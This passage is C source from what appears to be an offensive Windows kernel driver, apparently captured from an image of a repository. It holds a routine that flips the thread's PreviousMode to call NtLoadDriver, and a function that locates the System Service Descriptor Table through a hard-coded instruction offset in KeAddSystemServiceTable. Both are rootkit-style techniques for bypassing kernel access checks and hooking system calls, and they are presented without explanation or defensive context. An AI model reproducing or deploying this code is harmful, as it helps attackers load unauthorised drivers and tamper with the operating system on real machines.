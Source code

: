 ```c
 DbgPrintEx(0, 0, "Driver: %wZ\n", &UserBuffer);

 PreviousStatus = ChangePreviousMode(0);
 if (!PreviousStatus) {
  return STATUS_UNSUCCESSFUL;
 }

 _NtLoadDriver NtLoadDriver = (_NtLoadDriver)g_NtLoadDriverAddress;
 NTSTATUS Status = NtLoadDriver(&UserBuffer);
 if (!NT_SUCCESS(Status)) {
  goto Clean;
 }

Clean:
 PreviousStatus = ChangePreviousMode(1);
 if (!PreviousStatus) {
        if (Status == 0) {
   Status = STATUS_UNSUCCESSFUL;
        }
 }

 ExFreePoolWithTag(UserBuffer.Buffer, 'buff');
 return Status;
}

PVOID GetSSDTAddress(PVOID KeAddSystemServiceAddr) {
 /*
  ------------------
  kd> u nt!KeAddSystemServiceTable+0xbd L1
  nt!KeAddSystemServiceTable+0xbd:
  fffff800`aae7bdcd 48391d0c5b7800  cmp     qword ptr [nt!KeServiceDescriptorTable+0x20 (fffff800`ab6018e0)],rbx
  ------------------
  
  We will dynamically obtain the address of the SSDT by reading the opcodes at this address by the KeAddSystemServiceTable address.

 */
 PVOID AddressToRead = NULL;
 PVOID NewAddress = NULL;
 PBYTE Instruction = (PBYTE)KeAddSystemServiceAddr + 0xbd;

 /* Get Offset Address */
 DWORD OffsetAddress = *(PDWORD)(Instruction + 3);

 /* Calculate RIP */
 UINT_PTR rip = (UINT_PTR)Instruction + 7;

 /* Add Offset Address to RIP */
 AddressToRead = (PVOID)(rip + (INT32)OffsetAddress);

 /* Get Absolute Address */
 AddressToRead = (PVOID)((PBYTE)AddressToRead - 0x20);

 NewAddress = GetAddress(AddressToRead);

 return NewAddress;
}

NTSTATUS IoCreateClose(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
 UNREFERENCED_PARAMETER(DeviceObject);

 PIO_STACK_LOCATION Stack = IoGetCurrentIrpStackLocation(Irp);
```